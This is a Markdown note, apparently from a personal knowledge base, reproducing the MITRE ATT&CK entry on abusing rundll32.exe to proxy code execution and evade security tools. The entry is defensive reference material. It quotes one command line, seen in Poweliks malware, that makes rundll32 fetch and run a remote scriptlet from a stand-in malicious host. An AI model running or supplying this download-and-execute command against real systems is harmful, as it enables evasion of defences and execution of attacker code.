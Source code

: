 ```yaml
---
alias: Rundll32
---
```


## Rundll32

The rundll32.exe program can be called to execute an arbitrary binary. Adversaries may take advantage of this functionality to proxy execution of code to avoid triggering security tools that may not monitor execution of the rundll32.exe process because of whitelists or false positives from Windows using rundll32.exe for normal operations.

Rundll32.exe can be used to execute Control Panel Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute. (Citation: Trend Micro CPL)

Rundll32 can also been used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)


### Tactic

- [[Defense Evasion]] (TA0005)
- [[Execution]] (TA0002)

### Sub-techniques


---
### References

- mitre-attack: https://attack.mitre.org/techniques/T1085
- Trend Micro CPL: https://www.trendmicro.de/cloud-content/us/pdfs/security-intelligence/white-papers/wp-cpl-malware.pdf
- This is Security Command Line Confusion: https://thisissecurity.stormshield.com/2014/08/20/poweliks-command-line-confusion/
